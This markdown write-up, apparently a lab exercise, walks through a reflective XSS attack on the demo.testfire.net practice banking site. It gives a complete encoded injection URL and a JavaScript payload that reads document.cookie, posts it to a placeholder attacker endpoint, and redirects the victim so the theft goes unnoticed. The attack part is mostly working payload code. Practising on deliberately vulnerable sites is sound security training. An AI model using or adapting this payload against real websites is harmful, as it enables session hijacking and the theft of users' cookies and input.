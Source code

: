 # Reflective XSS

## How Logged In User Should be Targeted

The logged in user already has a valid session with the Wep Application, hence, the user can execute the internal URLs or links without any consent to login. Therefore any URL posted on the browser by the URL can take him directly within the application, due to a still having a valid session.


## Victim Web Page or Link

We will be using the link `http://demo.testfire.net/bank/queryxpath.jsp` to conduct the refective XSS. It is perfect candidate for the attack because it accepts the parameter in form of key-value pair with the name `query`, and anything after `query=` is considered as the value of the repective parameter key name.


## Malicious URL

The Malicious URL to send the detial to the designated server looks like below:

`https://demo.testfire.net/bank/queryxpath.jsp?query=%22%20placeholder=%22Put%20your%20query%20here%22%20/%3E%20%3Cscript%20src=%22https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js%22%3E%3C/script%3E%20%3Cscript%20src=%22https://maliciousScriptURL/maliciousScript.js%22%3E%3C/script%3E%20%3Cinput%20value=%22Query%22%20type=%22button%22%20%20onclick=%22maliciousScript()%22%20/%3E%20%3Cinput%20type=%22hidden%22%20value=`

The simple formatting of the above Malicious URL is given below:
```
http://demo.testfire.net/bank/queryxpath.jsp?query=" placeholder="Put your query here" />
 <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
 <script src="https://maliciousScriptURL/maliciousScript.js"></script>


<input value="Query" type="button"  onclick="maliciousScript()" /> 

<input type="hidden" value=
```

## Malicious Script

The Malicious Script loaded fetch via link `https://maliciousScriptURL/maliciousScript.js` by the web page upon infected by refective XSS has below source code:

```
function maliciousScript() {
	var val = document.getElementById("query").value;
  
  // Posting the cookie to 'maliciousServerEndpoint' on the 'maliciousServer'
  var cookieData = document.cookie;
	$.post("[maliciousServerEndpoint]",
	  {
		"userCookie": cookieData
	  });
   // We will send the feedback from the user, so that the user does not gets suspecious
	 window.location = "http://demo.testfire.net/bank/queryxpath.jsp?query=" + val;
}
```

I wasn't able to inject the below code section within the URL due to the character encoding limitation.
```
<script>
function maliciousScript() {
	var val = document.getElementById("query").value;
	$.post("maliciousServerEndpoint",
	  {
		"feedbackText": val
	  });
	 window.location = "http://demo.testfire.net/bank/queryxpath.jsp?query=" + val;
}
</script>
```

Malicious function with the name `maliciousScript` reads the value from textbox and send the input value to the `maliciousServerEndpoint`.

Screenshot:
![Screenshot](img/Reflective_XSS_Source_Code.png)

